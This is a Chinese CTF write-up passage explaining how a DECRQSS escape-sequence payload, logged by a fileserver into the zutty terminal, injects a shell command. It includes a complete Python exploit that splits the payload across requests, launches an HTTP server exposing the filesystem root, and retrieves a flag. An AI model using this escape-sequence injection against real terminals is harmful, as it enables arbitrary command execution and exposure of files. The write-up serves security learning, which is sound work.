 执行任意代码的payload如下：`\x1bP$q\n some-command \x1b\\\n`

但是有一个问题。

```rust
println!("Received request: {}", request.lines().next().unwrap_or(""));
```

fileserver只会向zutty输出第一行内容（`.lines().next()`），payload到`\n`就截断了。官方writeup给出的方案是...使用`\r`。嘛，一般写代码都是`\n`的吧，这个有谁会记得......

但是，再看一下，要构成一个完整的DECRQSS序列是需要`\x1b\\`结尾的，只靠一个`\n`作不了结尾。因此即使payload会被隔断，我们也可以通过多次发送、多次打印日志的方式传输payload，传输完整后再发送结尾。

```python
sendReq(b'\x1bP$q\x03\n')  # 这相当于在zutty内模拟用户输入，我们需要先停掉fileserver再向shell发送命令
command = f' || (python3 -m http.server {http_port} -d / )\n'.encode()  
sendReq(command)  # 由于发送时fileserver的日志输出是"Received request: ..."，因此需要用||让后面的指令始终执行
sendReq(b'\x1b\\\n')
```

发送后即可启动http服务，访问`/flag2`即得flag。

![](https://pic.imgdb.cn/item/672f9b24d29ded1a8cc9761e.png)

完整程序：

```python
#!/usr/bin/env python3

import socket
import time

def sendReq(payload, host="127.0.0.1", port=8000, timeout=2.0):
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(timeout)
            sock.connect((host, port))
            sock.sendall(payload)
            return sock.recv(8192).decode()
    except Exception as e:
        return f"Error: {e}"

def main(http_port=7999):
    try:
        # Send the initial payload to start the HTTP server
        sendReq(b'\x1bP$q\x03\n')
        
        # Send the command to start the HTTP server
        command = f' || (python3 -m http.server {http_port} -d / )\n'.encode()
        sendReq(command)
        # Send the ending payload
        sendReq(b'\x1b\\\n')
        
        # Wait for the HTTP server to start
        time.sleep(2)
        
        # Send a GET request to the HTTP server
        get_request = f'GET /flag2 HTTP/1.1\r\nConnection: close\r\n\r\n'.encode()
        response = sendReq(get_request, port=http_port)
        print(response)
        
    except Exception as e:
        print(f"执行过程出错: {e}")

if __name__ == "__main__":
    main()

```